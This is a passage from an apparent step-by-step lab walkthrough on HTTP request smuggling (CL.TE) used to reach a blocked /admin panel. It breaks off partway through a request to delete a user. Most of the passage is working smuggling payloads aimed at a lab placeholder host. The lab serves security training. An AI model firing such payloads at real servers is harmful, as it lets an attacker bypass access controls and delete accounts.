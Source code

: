 The second request should receive an HTTP 404 response.

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

1.  Try to visit `/admin` and observe that the request is blocked.
2.  Using Burp Repeater, issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 37  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    X-Ignore: X`
3.  Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
4.  Issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 54  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    X-Ignore: X`
5.  Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6.  Issue the following request twice so the second request's headers are appended to the smuggled request body instead:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 116  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=`
7.  Observe that you can now access the admin panel.
8.  Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 139  
    Transfer-Encoding: chunked  
      